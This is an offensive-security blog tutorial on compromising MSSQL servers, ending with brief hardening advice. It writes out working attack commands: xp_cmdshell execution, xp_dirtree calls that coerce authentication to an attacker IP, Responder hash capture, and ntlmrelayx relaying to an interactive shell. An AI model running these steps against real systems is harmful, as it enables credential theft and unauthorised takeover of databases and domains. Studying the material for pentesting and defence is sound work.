

# Compromising MSSQL Databases by Relaying

## Introduction

Database security must be guaranteed in the connected digital world of today. Many firms choose Microsoft SQL Server (MSSQL) because of its strong feature set and integration capabilities. But enhanced functionality also means a larger surface area for attacks, which makes it a desirable target for (ethical) hackers. Even though there are multiple attacks targeting MSSQL databases, relaying is one of the most effective ones. They are indeed a particularly sneaky way to compromise MSSQL servers.  
  
We'll explore the nuances of relaying attacks on MSSQL servers in this blog post. We'll investigate the workings of these attacks, and show how they might affect the systems they are aimed against. We'll also touch on the defensive side of the things with some remediation ideas.

I have already made a video about this topic, so if you prefer watching instead of reading, feel welcomed and if you enjoy my work, feel free to subscribe:

[!embed](https://youtu.be/o5DR_rW8_VQ)

Additionally, if you have further appreciation to my work, don't hesitate to become my [Patreon](https://www.patreon.com/Lsecqt). By doing so, you support my work while accessing custom maldev tools that I am sure you can find handy.

## What is MSSQL?

MSSQL, or Microsoft SQL Server, is a relational database management system (RDBMS) developed by Microsoft. It is designed to store and manage large amounts of data efficiently. MSSQL uses Structured Query Language (SQL), which is the standard language for managing and manipulating databases.

Think of MSSQL as a sophisticated filing system that not only keeps your data safe but also allows you to quickly retrieve and manipulate this data through queries. This database management system supports a variety of data types, including integers, text, and even more complex data structures like XML and JSON.

One of the primary reasons for the adoption of MSSQL by companies is its robust performance and reliability. MSSQL is designed to handle large volumes of data efficiently, making it an ideal choice for enterprises that require high-performance databases to manage their critical applications and services. 

The integration of MSSQL with Active Directory (AD) provides a seamless and secure authentication mechanism, which is crucial for maintaining the integrity and security of data. By leveraging AD, companies can manage user access and permissions centrally, ensuring that only authorized personnel have access to sensitive information. This integration simplifies user management and enhances security by using existing AD credentials, reducing the need for multiple login credentials and streamlining the authentication process.

## Why MSSQL Databases are nice targets?

From an attacker's perspective, MSSQL databases are extremely good targets, mainly because of:

1. They store sensitive data
2. Their stored procedures

The first option is obvious, it is a database, if we obtain some kind of access to it, we can try to read out the tables into finding credentials or other sensitive data which can help us escalate over the domain.

The second option is more interesting, even though MSSQL databases are relation-based engines like MySQL and Oracle , they differ a lot.  One of the main difference is their stored procedures.

### What is a stored procedure

Stored procedures in MSSQL databases are precompiled collections of one or more SQL statements that are saved under a name and processed as a unit. They play a critical role in database management and are utilized to perform a variety of tasks, from data manipulation and validation to administrative tasks.

A stored procedure is written in Transact-SQL (T-SQL), which is Microsoft's and Sybase's proprietary extension of SQL. When a stored procedure is created, it is compiled and stored in the database catalog. 

Stored procedure can be manually created for ease of work, but there are predefined ones which are super interesting for us.

In Microsoft SQL Server, stored procedures that start with `xp_` are known as extended stored procedures. These procedures are special because they provide an interface between SQL Server and external components or operating system services. Here are some similar stored procedures that start with `xp_`, along with brief explanations of their purposes:

### 1. `xp_fixeddrives`

- **Purpose:** Returns information about the disk drives on the server.
- **Example:** `EXEC xp_fixeddrives;`

### 2. `xp_regread` and `xp_regwrite`

- **Purpose:** Read from and write to the Windows registry from within SQL Server.
- **Examples:**
    - `EXEC xp_regread 'HKEY_LOCAL_MACHINE', 'SOFTWARE\MyApp', 'Version';`
    - `EXEC xp_regwrite 'HKEY_LOCAL_MACHINE', 'SOFTWARE\MyApp', 'Version', '1.0';`

### 3. `xp_fileexist` and `xp_filesize`

- **Purpose:** Checks if a file exists and returns its size, respectively.
- **Examples:**
    - `EXEC xp_fileexist 'C:\MyFile.txt';`
    - `EXEC xp_filesize 'C:\MyFile.txt';`

### 4. `xp_dirtree`

- **Purpose:** Generates a hierarchical listing of files and directories within a specified directory on the file system
- **Example:** `EXEC xp_dirtree 'C:\MyDirectory\', 1;`

### 5. `xp_cmdshell`

- **Purpose:** Executes operating system commands from within SQL Server.
- **Example:** `EXEC xp_cmdshell 'dir C:\';`

As you might already start to get it, some of the predefined stored procedures can be abused into offense.

## Enumerating MSSQL Databases

Before diving into the attacks, let's first demonstrate how to obtain a valid list of targets. For this demo we will use the well-known [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL). While this toolkit can be used not only for enumeration, we will not completely depend on it for this blogpost.

It is a powershell script, after loading it either from import-module or reflectively via iex, we can now utilize its functions. One such function is `Get-SQLInstanceDomain` and `Get-SQLInstanceLocal`. As their names are speaking, these functions are querying either the Active Directory or the local system for finding database engines.

!!!
PowerUpSQL is designed to enumerate and target only MSSQL servers.
!!!

If you want to select only the `ComputerName` field, you can use the powershell utility `select`:
`Get-SQLInstanceDomain | select ComputerName`

Also, it is always advised to run the `Invoke-SQLAudit` against the enumerated instances for each user you compromise. You never know when you will hit the jackpot.

For more `PowerUpSQL` functions, you can refer to this [cheatsheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet).

## Attacking MSSQL Databases

For these demos, we will operate from a standpoint of compromised user. We will not cover the user attack itself, but let's imagine for a second it was due to password spray attack. The main idea of this blog is to show some of the basic attacks over MSSQL servers, without a valid credentials, what we can do is brute-forcing and credentials snuffing.

### Attack 1 - XP_CMDSHELL

While this attack is simple and well known, I still felt the need to include it here. In order for this attack to work, we would need to have this procedure already enabled on the targeted system, or else, we would need to have sysadmin privileges over it so we can enable it. Here it is important to mention that users that have the sysadmin privileges might be on both the domain and the local level, for instance, the `sa` account is the default, main and most privileged account. On top of that, since the MSSQLs can be easily integrated with AD, it is also possible to find domain users who might have the same level of privileges, so think more open here.

As mentioned, for this scenario we compromised a user which has a sysadmin level privileges over the database. When that's the case, it is simply enough to:

1. Connect to the database

The DB Connection can be done from many different softwares, for example the [SSMS](https://learn.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms?view=sql-server-ver16) is utility from Microsoft, that is capable of full database management and operation. Alternatively, if operating from linux, impacket got us covered. The `impacket-mssqlclient` is nice script that is capable of performing [pass the hash](https://www.beyondtrust.com/resources/glossary/pass-the-hash-pth-attack) while having all functionalities that we need. So in order to connect:

`impacket-mssqlclient 'DOMAIN/user'@<IP OR FQDN>`

!!!
If connecting to MSSQL instance via domain joined user, make sure to include the `-windows-auth` flag. If the flag is missing, the impacket script will tolerate the credentials on local level.
!!!

2. Execute commands

`enable_xp_cmdshell`

`xp_cmdshell whoami`

In this case, the database is running as `nt authority\local service`. Always check the user behind the MSSQL process, as you later will find how handy this can be. However, in this case, we are effectively `NT AUTHORITY\SYSTEM` since the service accounts has dangerous local privileges which can be abused with for example potato attacks. If you want to learn more about this hit me up in [Discord](https://discord.gg/bgSpdheEgu), so I can blog about this topic.

!!!
Sometimes `xp_cmdshell` might be explicitly hardened (disabled), in such cases, you may want to try executing commands via the `sp_start_job` option from `impacket-mssqlclient`.
!!!

### Attack 2 - Relaying

Here is where it is getting more interesting. Imagine for this demo that we have compromised a user who is not sysadmin over any database, and the `xp_cmdshell` stored procedure is disabled, as well as the `sp_start_job`. Obviously one thing that we can do is to scrape the database for sensitive content, but is there any other attack vector? Yes!

As previously explained, the `xp_dirtree` stored procedure is used to read local or remote files over SMB. This procedure is handy when it comes to easy database migration, but can cause some issues. Since the `xp_dirtree` is used for remote SMB operations, by setting up responder with `responder -I <interface>` we can grap the NTLMv2 hash of the machine account. To trigger authentication, it is enough to just do `xp_dirtree \\ip\share\something` from `impacket-mssqlclient` shell. Usually, the database server is running as `NT AUTHORITY \ SERVICE` user. This will cause the NTLMv2 hash of the machine account to be captured.

However, sometimes the database service can be misconfigured to operate from the context of privileged domain account. This setting is located at `SQL SERVER CONFIGURATION MANAGER -> DB Instance -> Log On`

Now you may ask, well how to enumerate that if we dont have local access to the sever? 

Coerce! If the database is misconfigured, after successful authentication capture we would get the NTLMv2 of the domain user rather than the machine account.

When that is the case, even though we don't know the password of this user (even though we might try to crack it), we can try to relay the incoming authentication against other services / servers. Since now the captured account name nudges that he might have admin rights over some databases, I guess it makes most sense to relay it over all DB instances.

!!!
If you are relaying against many hosts at once via the `-tf` flag in `ntlmrelayx`, it is super important to note the protocol for each host, for instance:

mssql://host1

mssql://host2

If that is not the case, `ntlmrelayx` will always relay to SMB.
!!!

Now let's setup the `ntlmrelayx`:

`impacket-ntlmrelayx -t mssql://172.16.16.52 -smb2support -ts -debug -i`

Here, the `-i` flag is super important. This flag will start fully functional `mssqlclient` shell against the target, if the authentication succeded. If this flag is missing, `ntlmrelayx` will try to execute SQL queries instead.

To exploit, it is enough to trigger `xp_dirtree` again

`xp_dirtree \\172.16.16.130\share\asd`

!!!
If you are relaying into multiple targets from file, you may need to trigger the authentication several times if the process hangs up.
!!!

After the relaying is successful, `ntlmrelayx` tells us that there is interactive MSSQL shell on `127.0.0.1:11000`. Let's connect with nc:

`nc 127.0.0.1 11000`

With this fully functional shell, we can no retry all the attack paths but now from the context of our privileged user.

## Conclusion

MSSQL servers are handy, but they must be taken with care. A slight misconfiguration might allow lateral movement and persistence on multiple servers, or in the worst-case scenario, even domain takeover.

From the defensive side of things, it is advised to ensure that the database servers are operating under the context of local service user. No `xp_cmdshell` is enabled, no user beside the `sa` and the DA can reconfigure the stored procedure, and also, remember to shut down `xp_dirtree` unless it is explicitly needed.

Thank you for the reading, if this blog-post was useful, you can support my work by becomming my [Patreon](https://www.patreon.com/Lsecqt).